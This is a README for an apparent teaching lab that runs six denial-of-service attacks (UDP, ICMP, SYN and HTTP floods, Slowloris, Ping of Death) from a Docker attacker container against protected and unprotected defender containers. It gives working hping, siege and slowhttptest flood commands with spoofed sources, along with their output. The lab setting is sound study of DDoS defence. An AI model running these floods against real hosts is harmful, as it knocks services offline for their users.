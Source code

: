 # HSA L14: DDoS Attacks

## Overview
This is an example project to show how to implement well-known DDos Attacks (UDP Flood, ICMP flood, HTTP flood, Slowloris, SYN flood,  Ping of Death).
We will setup three docker containers:
1. Attacker Container - contains scripts that will implement 6 attacks (UDP flood, ICMP flood, HTTP flood, Slowloris, SYN flood,  Ping of Death).
1. Defender container with protection.
1. Defender container without protection.

## Getting Started

### Preparation
1. Run the docker containers.
```bash
  docker-compose up -d
```

Be sure to use ```docker-compose down -v``` to clean up after you're done with tests.

2. Run the attacker container.
```bash
docker-compose run attacker bash
```

## Test scenarios

### UDP flood
#### Without DDoS protection:
```bash
$ hping -c 100000 -d 128 -w 64 --flood --rand-source --udp -p 8080 defender-0

--- defender-0 hping statistic ---
2916410 packets tramitted, 0 packets received, 100% packet loss
round-trip min/avg/max = 0.0/0.0/0.0 ms

$ curl -Is localhost:8080 | head -1
HTTP/1.1 200 OK
```
#### With DDoS protection:
```bash
$ hping -c 100000 -d 128 -w 64 --flood --rand-source --udp -p 8081 defender-1

--- defender-1 hping statistic ---
2785135 packets tramitted, 0 packets received, 100% packet loss
round-trip min/avg/max = 0.0/0.0/0.0 ms

$ curl -Is localhost:8081 | head -1
HTTP/1.1 200 OK
```

### ICMP flood
#### Without DDoS protection:
```bash
$ hping defender-0 -c 1000 -d 128 -n -p 8080 --icmp --flood --rand-source

--- defender-0 hping statistic ---
1048299 packets tramitted, 0 packets received, 100% packet loss
round-trip min/avg/max = 0.0/0.0/0.0 ms

$ curl -Is localhost:8080 | head -1
HTTP/1.1 200 OK
```
#### With DDoS protection:
```bash
$ hping defender-1 -c 1000 -d 128 -n -p 8081 --icmp --flood --rand-source

--- defender-1 hping statistic ---
893003 packets tramitted, 0 packets received, 100% packet loss
round-trip min/avg/max = 0.0/0.0/0.0 ms

$ curl -Is localhost:8081 | head -1
HTTP/1.1 200 OK
```

### HTTP flood
#### Without DDoS protection:
```bash
$ siege -b -c 500 -t 1m defender-0

```
#### With DDoS protection:
```bash
siege -b -c 500 -t 1m defender-1

Transactions:		         643 hits
Availability:		        9.60 %
Elapsed time:		       40.56 secs
Data transferred:	        6.61 MB
Response time:		       16.18 secs
Transaction rate:	       15.85 trans/sec
Throughput:		        0.16 MB/sec
Concurrency:		      256.58
Successful transactions:         643
Failed transactions:	        6052
Longest transaction:	       24.49
Shortest transaction:	        0.00
```

### Slowloris
#### Without DDoS protection:
```bash
$ slowhttptest -c 1000 -H -g -o slowhttp -i 10 -r 200 -t GET -u http://defender-0 -x 24 -p 3
Slow HTTP test status:

initializing:        0
pending:             0
connected:           10
error:               0
closed:              250
service available:   NO

$ curl -XGET localhost:8080
curl: (52) Empty reply from server
```
#### With DDoS protection:
```bash
$ slowhttptest -c 1000 -H -g -o slowhttp -i 10 -r 200 -t GET -u http://defender-1 -x 24 -p 3
Slow HTTP test status:
initializing:        0
pending:             0
connected:           162
error:               0
closed:              838
service available:   YES

$ curl -Is localhost:8081 | head -1
HTTP/1.1 200 OK
```

### SYN flood
#### Without DDoS protection:
```bash
$ hping defender-0 -p 8080 -c 1000 -d 128 -S -n --flood --rand-source

--- defender-0 hping statistic ---
2741951 packets tramitted, 0 packets received, 100% packet loss
round-trip min/avg/max = 0.0/0.0/0.0 ms

$ curl -Is localhost:8080 | head -1
HTTP/1.1 200 OK
```
#### With DDoS protection:
```bash
$ hping defender-1 -p 8081 -c 1000 -d 128 -S -n --flood --rand-source

--- defender-1 hping statistic ---
2002331 packets tramitted, 0 packets received, 100% packet loss
round-trip min/avg/max = 0.0/0.0/0.0 ms

$ curl -Is localhost:8081 | head -1
HTTP/1.1 200 OK
```

### Ping of Death
#### Without DDoS protection:
```bash
$ ping 172.16.238.20 -s 65488 -t 1 -n 1

--- 1 ping statistics ---
117 packets transmitted, 0 received, 100% packet loss, time 118789ms

$ curl -Is localhost:8080 | head -1
HTTP/1.1 200 OK
```
#### With DDoS protection:
```bash
$ ping 172.16.238.30 -s 65488 -t 1 -n 1

--- 1 ping statistics ---
200 packets transmitted, 0 received, 100% packet loss, time 162399ms

$ curl -Is localhost:8081 | head -1
HTTP/1.1 200 OK
```

